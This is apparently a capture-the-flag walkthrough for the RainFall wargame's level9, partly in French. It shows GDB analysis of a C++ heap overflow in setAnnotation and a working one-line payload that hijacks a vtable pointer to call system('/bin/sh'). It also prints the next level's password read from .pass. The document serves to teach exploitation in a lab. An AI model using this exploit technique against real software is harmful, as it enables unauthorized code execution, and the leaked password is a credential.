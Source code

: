 # Level9 Walkthrough

## Analyzing the Program with GDB or Ghidra

1. **Disassemble the program functions**:
    We can see a C++ program with a Class N and different methods, thanks to some commands:
    ```bash
    level9@RainFall:~$ c++filt _ZN1NC2Ei
    N::N(int)
    level9@RainFall:~$ c++filt _ZN1N13setAnnotationEPc
    N::setAnnotation(char*)
    level9@RainFall:~$ c++filt _Znwj
    operator new(unsigned int)
    ```
    They are calling classes and methods from classes

    - `setAnnotation(char*)` : use of memcpy to copy annotation without verifying the entry size of the user.
    - `operator+()` or `operator-()` : overload
    - `main` : the binary is written in cpp.

        - Lets `disas main`, we can see two dereferencing pointers :
    ```bash
       0x08048680 <+140>:   mov    (%eax),%eax
    => 0x08048682 <+142>:   mov    (%eax),%edx
    ```
    Ces instructions impliquent des objets ou des structures en mémoire. Ces objets contiennent des pointeurs vers leurs propres méthodes ou d'autres données.
    - +140 : La valeur de l'adresse pointée par eax est chargée dans eax. Cela signifie que eax contient un pointeur vers une zone mémoire, et cette zone est lue.
    - +142 : La valeur de l'adresse pointée par eax est chargée dans edx. Ici, eax est utilisé pour accéder à un autre pointeur, si on controle la valeur dans eax on peut rediriger le programme vers une addresse memoire arbitraire via edx. 

    ```bash
        [...]
        0x08048693 <+159>:   call   *%edx
    ```
    Un appel indirect est effectué via un pointeur stocké dans edx. Ce comportement est typique dans les programmes utilisant des tables de vtables pour les méthodes virtuelles.


    The main exploit is to replace the address pointed by `eax` to a `system` call. We'll need to write `system` address then put 104 bytes padding to overflow and the address of `eax` which is where we want to overwrite. We'll add the `/bin/sh` string to get a shell.


2. **Running the program to overflow it**:
    ```bash
    (gdb) r "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
    [...]
    Program received signal SIGSEGV, Segmentation fault.
    0x08048682 in main ()
    (gdb) info function system
    [...]
    0xb7d86060  system
    ```

    We can see `system` function after segfault. Before segfault, system (libc function) is not charge on memory, cuz system is a dynamic function. `system` is partially charged in memory, so with GDB we can see shared dynamic library (libc.so functions). 

    They are referenced on the `PLT` Procedure Linkage Table. 

    - We can also see the offset in the 108th position: 
    ```bash
    (gdb) info register eax
    eax            0x41366441       1094083649
    ```

    - Lets try to find where our buffer is stored (eax register where will point to)
    ```bash
    (gdb) b *0x8048677 <-----> Right after setAnnotation to manipulate %eax to point to a control address
    Breakpoint 1 at 0x8048677
    (gdb) r "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
    [...]
    Breakpoint 1, 0x08048677 in main ()
    (gdb) ni <-----> next instruction to go after
    0x0804867c in main ()
    (gdb) info register eax
    eax            0x804a00c        134520844
    (gdb) x/s 0x804a00c
    0x804a00c:       "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" <-----> So we can write to it here something
    ```

## Running the program

1. **Execute the Program with the Correct Input**:

    Now we create our payload with the :
    - system_buffer = 4bytes
    - padding = 104 bytes (to reach memcpy)
    - buffer_addr = 4 bytes 
    Total = 108 + 4 = 112

    `\x60\x60\xd8\xb7` : from `0xb7d86060` system
    `\x0c\xa0\x04\x08`: from `0x0804a00c` eax register
    ```bash
    level9@RainFall:~$ ./level9 $(python -c 'print "\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08" + ";/bin/sh"')
    sh: 1: 
        : not found
    $ quit
    /bin/sh: 1: quit: not found
    $ exit
    level9@RainFall:~$ ./level9 $(python -c 'print "\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08" + ";/bin/sh"')
    sh: 1: 
        : not found
    $ whoami
    bonus0
    $ id
    uid=2009(level9) gid=2009(level9) euid=2010(bonus0) egid=100(users) groups=2010(bonus0),100(users),2009(level9)
    $ cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
    ```

## Moving to bonus0

1. **Swith User to bonus0**:
    Run ```su bonus0```

2. **Authenticate with the Password**:
    We used the password we found.